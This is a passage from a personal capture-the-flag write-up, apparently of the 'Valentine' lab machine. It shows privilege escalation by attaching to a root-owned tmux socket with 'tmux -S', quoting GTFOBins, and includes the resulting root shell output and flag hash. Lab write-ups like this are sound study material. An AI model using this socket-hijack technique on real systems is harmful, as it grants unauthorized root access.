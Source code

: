 - tmux (it is clearly visible as a hidden folder in the home directory)

What is the full path to the socket file used by the `tmux` session?

- `/.devs/dev_sess`

This is leading me somewhere but where?? After navigating the file system for a while `tmux` kept playing on my head and as this was an old machine I thought [GTFobins](https://gtfobins.github.io/gtfobins/tmux/) and `tmux` must give me something and that it did. 

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

- 
    
    ```
    tmux
    ```
    
- Provided to have enough permissions to access the socket.
    
    ```
    tmux -S /path/to/socket_name
    ```
    

Well I know the PATH to the socket so what would happen if I run the second command with my PATH?

```bash
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/home/hype# cat /root/root/txt
cat: /root/root/txt: No such file or directory
root@Valentine:/home/hype# cat /root/root.txt  
30281fbb2557cfa96a99cad48fae24a4
root@Valentine:/home/hype#
```

Yay, an easy root and one I should have got if I wasn’t so tired,
All in all a great machine and Guided mode really does help nudge you along which to me is great.